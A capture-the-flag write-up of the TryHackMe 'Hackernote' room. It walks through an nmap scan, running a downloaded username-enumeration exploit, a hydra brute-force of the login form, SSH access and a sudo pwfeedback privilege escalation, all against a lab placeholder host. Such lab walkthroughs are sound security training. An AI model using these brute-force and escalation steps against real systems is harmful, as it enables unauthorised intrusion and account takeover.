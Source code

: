 +++
title = "TryHackMe Hackernote Write-Up"
date = "2020-02-28"
author = "Mark Ramige"
authorTwitter = "markramige" #do not include @
cover = ""
tags = ["nmap", "appsec", "python", "ssh", "brute-forcing", "enumeration"]
keywords = ["nmap", "appsec", "python", "ssh", "brute-forcing", "enumeration"]
description = "[This TryHackMe challenge](https://tryhackme.com/room/hackernote) gives you an IP address to attack and takes you through each step of the process until you get root on the box. It covers recon, investigation, exploitation, user enumeration, password brute forcing, and privilege escalation. It requires some basic linux skills to get started."
showFullContent = false
+++

[This TryHackMe challenge](https://tryhackme.com/room/hackernote) gives you an IP address to attack and takes you through each step of the process until you get root on the box. It covers recon, investigation, exploitation, user enumeration, password brute-forcing, and privilege escalation. It requires some basic linux skills to get started.

## Contents
* [Task 1 - Reconnaissance](#task-1-reconnaissance)
* [Task 2 - Investigate](#task-2-investigate)
* [Task 3 - Exploit](#task-3-exploit)
* [Task 4 - Attack Passwords](#task-4-attack-passwords)
* [Task 5 - Escalate](#task-5-escalate)

## Task 1 - Reconnaissance
* Which ports are open? (in numerical order)

We can run `man nmap` to check for the options we need to scan for ports and service identification (next question).

`nmap -A -T4 MACHINE_IP` seems to be what we're looking for. The output is:

```
Starting Nmap 7.91 ( https://nmap.org ) at 2020-02-28 17:17 EST
Nmap scan report for MACHINE_IP
Host is up (0.11s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 10:a6:95:34:62:b0:56:2a:38:15:77:58:f4:f3:6c:ac (RSA)
|   256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)
|_  256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (ED25519)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Home - hackerNote
8080/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Home - hackerNote
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 24.41 seconds
```

* What programming language is the backend written in?

Notice the service listed on port 80.

## Task 2 - Investigate
Follow the instructions to set up your user account and test the web app. I'm proxying the traffic through Burp Suite.

## Task 3 - Exploit
Download the [exploit](https://raw.githubusercontent.com/NinjaJc01/hackerNoteExploits/master/exploit.py) and [list of user names](https://raw.githubusercontent.com/NinjaJc01/hackerNoteExploits/master/names.txt)

Change the value of the URL variable in the exploit script to `"http://MACHINE_IP/api/user/login"`

Add your user name to the top of the names.txt file to increase the accuracy of the exploit.

Run `python3 exploit.py` and answer the two questions based on the output:

* How many usernames from the list are valid?

* What are/is the valid username(s)?

## Task 4 - Attack Passwords
Download the wordlists.zip file. We're running Kali Linux and the hashcat-utils package is installed so we can just run:

`/usr/bin/hashcat-utils/combinator.bin colors.txt numbers.txt > wordlist.txt`

Next we run hydra to bruteforce our passwords: (replace `USERNAME` and `MACHINE_IP`)

`hydra -l USERNAME -P wordlist.txt MACHINE_IP http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"`

* How many passwords were in your wordlist?

`wc -l wordlist.txt`

* What was the user's password?

Taken from the output of `hydra`

* What is the user's SSH password?

Log in to the web app and the password is shown

* What's the user flag?

`ssh USERNAME@MACHINE_IP`

`cat user.txt`

## Task 5 - Escalate

* What is the CVE number for the exploit?

Google `pwdfeedback` and we [find a page](https://www.sudo.ws/alerts/pwfeedback.html) that explains the vulnerability and gives us the CVE number.

* What is the root flag?

Follow the instructions on the page to download the exploit, compile it, scp to the server, and run it.

Run `cat /root/root.txt` to get the flag.
